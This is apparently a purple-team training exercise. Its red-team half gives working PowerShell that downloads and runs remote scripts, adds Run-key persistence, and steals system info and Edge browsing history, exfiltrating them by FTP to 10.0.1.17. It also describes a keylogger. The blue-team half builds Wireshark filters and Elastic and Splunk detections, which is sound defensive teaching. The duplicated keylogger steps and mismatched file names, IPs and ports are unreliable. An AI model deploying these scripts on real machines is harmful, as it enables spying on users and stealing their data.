




# Purple Team Exercise 2

## **Exercise Overview**

The downloader (FreePizza.ps1) downloads two malicious PowerShell files, itunes.ps1 and google1.ps1. The itunes.ps1 file steals browser history, system information, and keylogger results and uses 7-zip to zip them up in password protected file and exfil the file via FTP.  Google1.ps1installs a keylogger that writes the results to a .txt file. FreePizza.ps1 attempts to  establish persistence by writing to the Run key to start google1.ps1 and itunes.ps1 each time the user logs in to the system.  

The sequence of events is shown in the diagram below.



The table below demonstrates red team actions (mapped to MITRE ATT&CK) and blue team actions to discover actions and opportunities to detect actions in the future. Note the difference between discover and detect is: **Discover** is **manually** finding the activity **after it occured**; **Detect** is **automatically** finding the activity **as it occurs** (will trigger alerts)**.**

<aside>
💡


</aside>

**Observed Indicators** 

10.0.1.17    Command and Control IPv4 address

185.199.109.133  Downloader IPv4 address

While atomic indicators have limited effectiveness, it is our due diligence to record and add the indicators and create alerts. 

**Recommendations**

Create alert for PowerShell Invoke-WebRequest

Create alert for files executing from Temp directory 

Create alert for values being written to Run Key

Create an alert for files executing from the Desktop

Create an alert for outgoing FTP connection

Add indicators to IOC list.

## Exercise Details

### Red Team Actions

### **Kali Purple**

On Kali Purple install vsftpd using the following procedures.

```powershell
sudo apt install vsftpd
```

Edit vsftpd.conf by using the following command.

```powershell
sudo nano /etc/vsftpd.conf
```

Un-comment write_enable=Yes


Exit and Save.

Restart vsftpd

```powershell
sudo systemctl restart vsftpd
```

**Windows**

1) Copy this PowerShell script to notepad++ on your victim machine. Name the file “FreePizza.ps1”. 

```powershell
mkdir C:\Windows\Temp\gamedata; 
#Download and execute itunes.ps1
Invoke-WebRequest -URI https://raw.githubusercontent.com/M122/logz/main/itunes.ps1 -OutFile c:\Windows\Temp\itunes.ps1; c:\Windows\Temp\itunes.ps1;
#Download and execute google1.ps1
Invoke-WebRequest -URI https://raw.githubusercontent.com/M122/logz/main/google1.ps1 -OutFile c:\Windows\Temp\google1.ps1; c:\Windows\Temp\google1.ps1;
# Set the path to google1.ps1
$google1Path= "c:\Windows\Temp\google1.ps1"
# Set the name for the registry entry (you can customize this)
$registryEntryName = "google1"
# Set the registry key path
$registryKeyPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
# Create or update the registry entry
Set-ItemProperty -Path $registryKeyPath -Name $registryEntryName -Value $google1Path;
```

2) If using Splunk enable Splunk data ingestion.

3) Start collecting packets with WireShark.

4) Navigate to the Desktop and execute FreePizza.ps1 with PowerShell.

**FreePizza.ps1 performs the following:**

1. Creates directory named "gamedata" in the **`C:\Windows\Temp`** directory using the **`mkdir`** command.
2. Downloads a PowerShell script named "itunes.ps1" from a GitHub repository and saving it to **`C:\Windows\Temp`**.
3. Executes the downloaded "itunes.ps1" script.
4. Downloads another PowerShell script named "google1.ps1" from a GitHub repository and saves itto **`C:\Windows\Temp`**.
5. Executes the downloaded "google1.ps1" script.
6. Sets up a registry entry to run the "google1.ps1" script at user logon. This is done by adding a registry entry under **`HKCU:\Software\Microsoft\Windows\CurrentVersion\Run`**, with the name "google1" and the value being the path to the "google1.ps1" script (**`C:\Windows\Temp\google1.ps1`**). This ensures that the script will be executed each time the user logs into their account.

**itunes.ps1 is shown below.**

```powershell
Start-Sleep -Seconds 100
systeminfo > C:\Windows\Temp\gamedata\systeminfo.txt
$browsing_history_file_path = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Edge\User Data\Default\History"
cp $browsing_history_file_path C:\Windows\Temp\gamedata
# Set the path to the 7-Zip executable (replace with your actual path)
$zipExePath = "C:\Program Files\7-Zip\7z.exe"

# Set the path to the folder you want to zip
$folderToZip = "C:\Windows\Temp\gamedata"

# Set the path for the output zip file
$zipFilePath = "C:\Windows\Temp\gamedata.zip"

# Set the password for the zip file
$zipPassword = "batman"

# Compress the folder to a zip file with 7-Zip and password protection
Start-Process -FilePath $zipExePath -ArgumentList "a -tzip -p$zipPassword -r -y $zipFilePath $folderToZip" -Wait

Write-Host "Folder successfully zipped and password-protected. Zip file: $zipFilePath"

$client = New-Object System.Net.WebClient
$client.Credentials = New-Object System.Net.NetworkCredential("elliot", "Password1")
$client.UploadFile("ftp://10.0.1.17/gamedata.zip","C:\Windows\Temp\gamedata.zip")
```

**itunes.ps1 performs the following actions:**

Step 1: Delay Execution

```jsx
Start-Sleep -Seconds 100
```

Pauses execution for 100 seconds, possibly to evade detection or ensure other processes complete before execution.

Step 2: Collect System Information

```jsx
systeminfo > C:\Windows\Temp\FLAG099\FLAG024.txt
```

- Runs `systeminfo` and saves the output to `FLAG024.txt` in the `C:\Windows\Temp\FLAG099\` directory.
- This gathers system details such as OS version, hostname, installed patches, and hardware specs.

Step 3: Steal Edge Browsing History

```jsx
$browsing_history_file_path = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Edge\User Data\Default\History"
cp $browsing_history_file_path C:\Windows\Temp\FLAG796
```

Copies the Microsoft Edge browsing history database (`History` file) from the current user’s profile to `C:\Windows\Temp\FLAG796`, potentially for later exfiltration.

Step 4: Compress and Password-Protect the Data with 7-Zip

```jsx
$zipExePath = "C:\Program Files\7-Zip\7z.exe"
$folderToZip = "C:\Windows\Temp\FLAG099"
$zipFilePath = "C:\Windows\Temp\FLAG553.zip"
$zipPassword = "batman"
```

```jsx
Start-Process -FilePath $zipExePath -ArgumentList "a -tzip -p$zipPassword -r -y $zipFilePath $folderToZip" -Wait
```

- Uses `7z.exe` to archive `C:\Windows\Temp\FLAG099` into a ZIP file (`FLAG553.zip`) with password protection (`batman`).
- This ensures that even if the file is detected, it cannot be easily opened without the password.

Step 5: Exfiltrate the Data via FTP

```jsx
$client = New-Object System.Net.WebClient
$client.Credentials = New-Object System.Net.NetworkCredential("elliot", "Password1")
$client.UploadFile("[ftp://10.0.1.17/FLAG553.zip","C:\\Windows\\Temp\\FLAG553.zip](ftp://10.0.1.17/FLAG553.zip%22,%22C:%5C%5CWindows%5C%5CTemp%5C%5CFLAG553.zip)")
```

- Uses `WebClient` to authenticate with FTP credentials (`elliot` / `Password1`).
- Uploads the ZIP file (`FLAG553.zip`) to an FTP server at `10.0.1.17`.

In summary, this script collects system information, browsing history, compresses it into a password-protected zip file, and uploads it to an FTP server. The script contains hard-coded credentials for FTP access

**Google1.ps1 is shown below.**

<aside>
💡



</aside>

Google.ps1 is a keylogger, which is a type of software that records keystrokes made by a user. 

**Here's a breakdown of what it does:**

1. It sets a variable **`$path`** to specify the file path where the keystrokes will be logged (**`C:\Windows\Temp\gamedata\google1.txt`**).
2. It checks if the specified log file exists, and if not, it creates a new file at that location.
3. It defines a set of Win32 API signatures using C#-style syntax. These signatures are for functions provided by the Windows API, which will be used to interact with keyboard input.
4. It enters a loop where it continuously monitors keyboard input.
5. Within the loop, it iterates over ASCII values from 9 to 254 (representing printable characters and control characters).
6. For each ASCII value, it uses the **`GetAsyncKeyState`** function from the Windows API to check if the corresponding key is pressed.
7. If a key is pressed (**`$state -eq -32767`**), it retrieves the virtual key code and keyboard state using various Windows API functions.
8. It converts the virtual key code into a character using the **`ToUnicode`** function from the Windows API.
9. If the conversion is successful, it appends the character to the log file specified by **`$path`**.
10. The script continues to run in an infinite loop until the log file is deleted or the script is terminated.
11. Finally, it includes a **`finally`** block to ensure that the script exits when it's done running.
12. It sets a variable **`$path`** to specify the file path where the keystrokes will be logged (**`C:\Windows\Temp\gamedata\google1.txt`**).
13. It checks if the specified log file exists, and if not, it creates a new file at that location.
14. It defines a set of Win32 API signatures using C#-style syntax. These signatures are for functions provided by the Windows API, which will be used to interact with keyboard input.
15. It enters a loop where it continuously monitors keyboard input.
16. Within the loop, it iterates over ASCII values from 9 to 254 (representing printable characters and control characters).
17. For each ASCII value, it uses the **`GetAsyncKeyState`** function from the Windows API to check if the corresponding key is pressed.
18. If a key is pressed (**`$state -eq -32767`**), it retrieves the virtual key code and keyboard state using various Windows API functions.
19. It converts the virtual key code into a character using the **`ToUnicode`** function from the Windows API.
20. If the conversion is successful, it appends the character to the log file specified by **`$path`**.
21. The script continues to run in an infinite loop until the log file is deleted or the script is terminated.
22. Finally, it includes a **`finally`** block to ensure that the script exits when it's done running.

## Blue Team Actions

The two main sources of information sed to analyze the red team actions were pcap and the logs ingested into the SIEM (Elastic or Splunk).

## Using Kibana


Filters were set for Sysmon and PowerShell.


The time picker was set for the time of the initial red team action.

## Using WireShark

Open the pcap file collected during the attack phase and apply a filter for a successful TCP handshake in order to view connections.

```powershell
(http.request or tls.handshake.type eq 1) and !(ssdp)
```

### **`(http.request or tls.handshake.type eq 1)`**

This captures:

- **`http.request`** → Any **HTTP request** packets (GET, POST, etc.).
- **`tls.handshake.type eq 1`** → Any **TLS handshake packets** where **type = 1** (which means "Client Hello").

### 🔹 **Explanation:**

- `http.request`: Captures **all HTTP requests** (part of the TCP stream).
- `tls.handshake.type eq 1`: Captures **TLS Client Hello packets**, which are the first step of a TLS handshake where the client initiates a secure connection.
- The **`or`** operator means **either one of these conditions** must be true for a packet to be captured.

---

### **`!(ssdp)`**

This excludes **Simple Service Discovery Protocol (SSDP)** traffic:

- **SSDP** is used for network device discovery (e.g., UPnP devices like smart TVs, printers).
- The `!` (not) operator **removes SSDP packets** from the capture.

### 🔹 **Explanation:**

- SSDP typically runs on **UDP port 1900** and is used for broadcasting service advertisements.
- By adding `!(ssdp)`, we **ignore** noisy SSDP packets that might clutter the capture.


As seen above there was a successful connection to 185.199.111.133 (github.com). Following that conversation and TCP stream we see that HTTPS was used and the data is encrypted.

<aside>
💡


</aside>

 Unfortunately, we can not tell much from the pcap about about what was downloaded.

<aside>
💡


</aside>

However, we can apply the WireShark filter below to look for FTP traffic.

```powershell
(ftp.request.command) or (ftp-data and tcp.seq eq 1)
```

### **`ftp.request.command`**

✅ **Captures FTP commands sent from the client to the server**.

- This includes **all FTP commands**, such as:
    - `USER` (Username)
    - `PASS` (Password)
    - `RETR` (Retrieve file)
    - `STOR` (Store file)
    - `LIST` (List files in directory)
- These commands are sent over **the control connection (port 21, typically over TCP)**.

---

### **`(ftp-data and tcp.seq eq 1)`**

✅ **Captures the first packet of FTP data transfers**.

- `ftp-data`: Captures **FTP data traffic**, which usually occurs on **port 20 (Active Mode)** or **random high ports (Passive Mode)**.
- `tcp.seq eq 1`: Filters FTP data packets where **TCP sequence number = 1**, meaning it captures **only the first packet of the file transfer**.

As seen below, the filter allows us to see the FTP traffic and see the name of the file transferred via FTP to 192.168.1.198.

<aside>
💡


</aside>

Lastly, we can carve the transferred file from the pcap.

<aside>
💡


</aside>

<aside>
💡


</aside>

# Creating Detections/Alerts in Elastic

Based on the discoveries discussed above, four detections were created in Elastic.

1) PowerShell invoking a web request

2) An executable file (exe or bat) executing from the Temp directory.

3) An executable file (exe or bat) executing from the Desktop.

4) Communicating over a non-standard port (1337).

```json
event.code: 3 AND process.name: powershell.exe
```


We can pivot to the PID of powershell.exe, 108 in this case (your will be different).

```json
process.pid: 108
```


We can learn more by expanding the message field. Below are the highlights.

1. The creation of Windows\Temp\gamedata directory.


1. Creation of iTunes.ps1 (downloaded)


1. Creation of systeminfo.txt (result of it systeminfo.exe running

 


1. History file being created.


1. Executing 7-zip


1. google.ps1 being created (downloaded)


1. Placing google1 in the \CurrentVersion\Run registry key for persistence.


1. Connecting to FTP server (See port 21)


**⚠️In order to create rules for alerts in Elastic, the Kibana configuration file (kibana.yml) must be modified. Complete the following only if you have not already done it.** 

1) Use the command below to modify kibana.yml

```powershell
sudo nano /etc/kibana/kibana.yml
```

2) Add the line below to the end of the file.

```powershell
xpack.encryptedSavedObjects.encryptionKey: znajsivp1jetapted92m0ao2h4d8mq0z
```


3) Restart kibana using the command below.

```powershell
sudo systemctl restart kibana
```


4) In Kibana, use the hamburger menu on the upper left to scroll down to Security and select Alerts.


5) Select Manage Rules.


6) Select Create New Rule


7) Select Custom Query


8) Scroll down and add the query that was used to discover the activity. (Note that this query should be as specific as possible so that false positives are not created.) Then select continue.

```json
registry.path: CurrentVersion\\Run\\
```


9) Name the rule, give it a description, and assign it a severity level.  Then select continue.


10) Set how often you want the rule to run and how far back you want it to search. For testing purposes set it to 1 and 1. **Do not select continue yet.**


11) Scroll back to the top of the page to “Rule Preview”. This will test the rule against previous logs. Set the time picker to the last time the attack was ran. If it has been a while since the attack was executed, run the attack again.  **The preview will like timeout if you try the last 24 hours.** 


12) The results below show that the alert will work. The reason there are so many hits is because the attack was ran multiple times during testing.


13) Now select continue to move to Rule actions.  Do not select any options and go straight to “Create and enable rule”


14) Go through the same process for each rule/alert.

## Test the Detections

1) Relaunch the attack.

2) Wait at least 1 minute and go to Security → Alerts in Kibana. You should have alerts triggered.


3) The majority of your investigation will be done from the Discovery page, based on information from the Alerts page. However, part of the investigation can be done from the Alert page. For example, going to the cube icon in the actions table will show a graphical sequence of events. 

 




# Creating Detections/Alerts in Splunk

1. **Search**: Start by creating a search query that identifies the conditions under which you want the alert to trigger. This could be a search for specific events, patterns, or thresholds in your data.

For example use the SPL below to discover a process being triggered from the Desktop.

```powershell
EventID=3 process_name=powershell.exe   ProcessId=108 
| table  _time host user EventDescription process_name ProcessId dest_ip
```



placehold

```json
ProcessId=108
| table  _time host user EventDescription TargetFilename process_name ProcessId registry_path dest_ip DestinationPortName
```


```json
registry_path=*\\CurrentVersion\\Run\\*
| table  _time registry_path process_name
```


**Save as Alert**: Once you have your search query, save it as an alert. Click on the 'Save As' button near the search bar, and then select 'Alert'. This will open the 'Save As Alert' dialog.


**Configure Alert**: In the 'Save As Alert' dialog, you can configure various settings for your alert, including the alert name, description, schedule (when the alert should run), and the alert condition (when the alert should trigger).

**Set Trigger Conditions**: Under the 'Trigger Conditions' section, specify the conditions that should trigger the alert. This could be based on the number of results, a specific field value, or other criteria.


**Set Alert Actions**: Next, configure the actions that should occur when the alert triggers. You can send an email, run a script, or trigger other alerts or actions. Select “Add to Triggered Alerts” and Save.

